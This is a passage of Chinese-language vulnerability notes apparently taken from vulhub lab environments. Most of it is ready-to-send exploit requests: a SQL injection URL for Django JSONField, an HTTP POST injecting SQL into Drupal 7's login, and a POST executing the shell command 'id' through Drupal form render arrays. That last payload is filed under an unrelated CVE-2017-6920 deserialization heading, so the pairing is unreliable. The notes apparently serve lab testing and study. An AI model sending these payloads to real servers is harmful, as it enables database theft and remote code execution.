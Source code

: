 ## 详情：

> Django默认配置下，如果匹配上的URL路由中最后一位是/，而用户访问的时候没加/，`Django默认会跳转到带/的请求中`。


# **[Django JSONField/HStoreField SQL注入漏洞（CVE-2019-14234）](https://github.com/vulhub/vulhub/blob/master/django/CVE-2019-14234/README.zh-cn.md)**

## 描述：

> Django在2019年8月1日发布了一个安全更新，修复了在JSONField、HStoreField两个模型字段中存在的SQL注入漏洞。

```
http://your-ip:8000/admin/vuln/collection/?detail__a%27b=123

```

# [CVE-2014-3704](https://vulhub.org/#/environments/drupal/CVE-2014-3704/)


## Drupal 是一款用量庞大的CMS，

其`7.0~7.31`版本中存在一处无需认证的`SQL漏洞`。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。


```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

# **[Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞（CVE-2017-6920）](https://vulhub.org/#/environments/drupal/CVE-2017-6920/)**

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id

```
